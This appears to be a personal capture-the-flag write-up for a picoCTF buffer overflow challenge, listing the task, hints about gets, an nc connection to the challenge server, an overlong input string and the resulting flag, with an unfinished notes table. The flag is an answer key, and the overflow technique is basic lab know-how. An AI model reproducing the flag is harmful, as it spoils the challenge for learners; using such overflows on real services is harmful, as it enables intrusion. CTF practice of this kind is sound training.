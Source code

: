 # Level 2
## Objetivo
Smash the stackLet's start off simple, can you overflow the correct buffer? The program is available [here](https://artifacts.picoctf.net/c/172/vuln). You can view source [here](https://artifacts.picoctf.net/c/172/vuln.c). And connect with it using:`nc saturn.picoctf.net 63397`
## Pistas
How can you trigger the flag to print?
If you try to do the math by hand, maybe try and add a few more characters. Sometimes there are things you aren't expecting.
Run `man gets` and read the BUGS section. How many characters can the program really read?
## Solucion
┌──(diego㉿kali)-[~]
└─$ nc saturn.picoctf.net 63397

Input: tf66gyygftfgyhujhgtfgyhu7y6tfgyhu7y6gyhu87ygyu98y78yhuij8u978yhu
picoCTF{ov3rfl0ws_ar3nt_that_bad_8446a0c3}

## Notas Adicionales
|comando|descripcion|
|-------|-----------|
|xxx|xxx|
## Referencias